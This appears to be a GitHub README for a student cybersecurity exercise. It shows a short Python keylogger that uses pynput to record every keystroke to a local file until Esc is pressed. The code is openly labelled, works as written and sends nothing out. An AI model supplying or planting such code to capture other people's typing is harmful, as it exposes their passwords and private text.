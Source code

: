 # INSTALL NECESSARY LIBRARY
![WhatsApp Image 2024-06-21 at 12 32 22_e997e422](https://github.com/rocky-2904/PRODIGY_CS_04/assets/173170607/da3a6c88-b7e4-4684-af05-02d2a8587509)

# CODE
    from pynput.keyboard import Key, Listener


    log_file = "keylog.txt"

    def on_press(key):
      with open(log_file, "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            if key == Key.space:
                log.write(" ")
            elif key == Key.enter:
                log.write("\n")
            elif key == Key.tab:
                log.write("\t")
            else:
                log.write(f" [{key}] ")

    def on_release(key):
    
      if key == Key.esc:
        return False


    with Listener(on_press=on_press, on_release=on_release) as listener:
        print("Keylogger started. Press 'Esc' to stop.")
        listener.join()
